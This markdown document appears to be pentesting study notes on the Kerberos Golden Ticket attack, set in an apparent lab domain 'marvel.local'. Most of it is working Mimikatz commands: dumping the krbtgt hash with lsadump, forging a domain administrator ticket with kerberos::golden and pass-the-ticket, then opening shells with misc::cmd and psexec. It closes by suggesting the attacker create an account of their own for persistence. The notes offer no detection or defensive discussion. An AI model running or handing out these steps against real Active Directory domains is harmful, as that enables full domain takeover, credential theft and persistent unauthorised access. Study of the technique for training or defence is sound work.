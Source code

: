 # Golden Ticket Attacks

## What is a Golden Ticket

* gives us complete access to the whole domain
* can generate tickets with ticket granting ticket

## Golden Tickets Attack Overview with Mimikatz

### Step 1: Open Mimikatz and Always Start with the Same Command

```bash
privilege::debug
```

### Step 2: Dump the Hashes

```bash
lsadump::lsa
```

* to dump a specific user

```bash
lsadump::lsa /inject /name:krbtgt
```

### Step 3: Open Up a Notepad

* copy the SID of the domain \(this is on the domain line of Mimikatz and is the long string of nums\)
* sid example: S-1-5-21-301214212-3920777931-1277971883
* copy the NTLM of the krbtgt account \(or any other account\)

### Step 4: Generate Your Ticket

```bash
kerberos::golden /User:AdministratorOrFakeName /domain:marvel.local /sid:<sid> /krbtgt:<acc hash> /id:500 /ptt
```

### Step 5: Open Up a New Shell with the Session Created

```bash
misc::cmd
```

### Optional Step: Download Psexec into Victim and Get Another Shell

```bash
psexec.exe \\THEPUNISHER cmd.exe
```

### Optional Step: Create a User Account for Yourself

* you own the domain, so you can create an account

